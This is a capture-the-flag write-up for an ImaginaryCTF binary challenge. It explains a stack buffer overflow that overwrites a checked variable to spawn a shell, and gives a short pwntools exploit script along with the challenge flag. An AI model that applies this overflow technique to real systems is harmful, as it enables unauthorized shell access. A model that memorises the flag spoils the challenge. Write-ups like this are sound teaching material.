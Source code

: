 # stackoverflow
## Description
Welcome to Stack Overflow! Get answers to all your programming questions right here!

## Files
Provided binary for decompilation

## Decompiled code
We use ghidra to decompile the binary.

### `stackoverflow`
![decompiled](./decompiled.PNG)

## Methodology
From the code we can see that we are prompted for our favourite color. This value is pushed to a variable `local_38` which has 40 bytes of memory allocated. Then there is a check if a variable `local_10` is of value `0x69637466` and if yes, we get a shell. From the code there is no way to control this value. We can however overflow our input buffer and overwrite the memory of this variable.

## Exploit
We use `pwntools` to interact with the remote server. We send 40 `A`s followed by the required hex value to spawn a shell.

## Exploit code
```python
from pwn import *

r = remote('chal.imaginaryctf.org', 42001)

r.recvline()
a = p32(0x69637466)
s = b'A'*40 + a + b'\r\n'

r.send(s)
r.interactive()
```

## Loot
![flag](./flag.PNG)

## Flag
**ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}**